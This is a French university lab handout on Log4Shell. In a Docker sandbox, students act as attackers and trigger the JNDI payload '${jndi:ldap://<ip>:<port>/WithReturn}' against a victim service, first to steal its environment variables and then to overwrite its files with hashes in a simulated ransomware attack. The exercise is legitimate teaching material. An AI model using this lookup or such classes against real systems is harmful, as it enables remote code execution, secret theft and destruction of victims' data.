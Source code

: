# TP Log4Shell 
#### Victor GAILLARD - Lou LABUSSIERE - Erina POINT - Ugo VIGNON
#### Envoyez votre compte-rendu à l'adresse lou.labussiere@etu.uca.fr
---
## **Objectif** : Hasher les fichiers d'un serveur victime pour simuler une attaque ransomware avec la faille Log4Shell

### **Configuration** :
 Pour commencer, clonez le projet (ou téléchargez l'archive).  

 Dans ce projet, vous trouverez : 
- Le serveur LDAP du pirate;
- Le serveur HTTP du pirate, contenant la codebase que vous aurez à coder;
- Un service de logging sur lequel vous pourrez requêter afin de récuperer des données;
- Le web service de la victime, qui contient les fichiers à hasher; 

Pour lancer le projet :
- Faite un `make all` pour générer tous les Dockerfile;
- Ensuite, faite un `docker-compose up` dans le répertoire cloné;

L'IP du serveur victime et des serveurs du pirate sont loggés avec ces lignes :
```sh
victim_1 | Running on IP : XXX.XXX
server_1 | Running on IP : XXX.XXX
```
 L'IP `server_1` sera à mettre dans le lookup plus tard.

 Si vous ajoutez une classe dans le dossier attacker/java, pensez à relancer vos containers !

---

### **Exercice 0** : Pour se mettre dans le bain
 Pour le temps de ce TP, vous serez le pirate >:) Vous allez donc réaliser une attaque exploitant la faille de Log4Shell sur un web service distant, dans le but de hasher les fichiers de la victime pour simuler un ransomware. 

Après plusieurs essais sur différents sites (en vain), vous tomber finalement sur ce site aux apparences plutôt vulnérables. Le formulaire de connexion n'a pas l'air très sécurisé...

 Avant toute chose, vous allez tester le fonctionnement de cette attaque en affichant dans les logs les valeurs des variables d'environnements de la victime.

Pour cela, vous allez devoir : 
- Créer une classe dans le dossier `attacker/java`. Cette classe devra récupérer les valeurs des variables d'environnements du web service victime, et les logger dans le service `logger_1`. Pour vous aider, consultez l'exemple `WithReturn.java`.

- Utilisez le lookup vu en cours pour lancer votre attaque. Exemple : `${jndi:ldap://<ip_server_1>:<port>/WithReturn}`. 

Pour vérifier que votre attaque a bien marchée, vérifier dans les logs de `logger_1` que les variables d'environnments de la vicitme sont bien affichées après l'envoie de votre requête.

---

### **Exercice 1** : L'attaque, la vraie de vraie
Maintenant que vous avez réussi à afficher les variables d'environnements de votre victime, vous allez pouvoir hasher ses fichiers (mouhaha) !! 

Pour ce faire, vous allez devoir recréer une classe qui va cette fois récupérer les fichiers du serveur de la victime, et les hasher avec l'algorithme SHA-256.

Pour vous aidez:
- la classe `MessageDigest` permet de faire du hashage, plus qu'à savoir comment...
- N'oubliez pas de modifier votre lookup en fonction de votre nouvelle classe ;p

Pour vérifier que cette attaque a bien marché, vous devriez voir que tous les fichiers du web service de la victime ont été hashés. Si c'est le cas, bravo vous êtes un pirate !! 
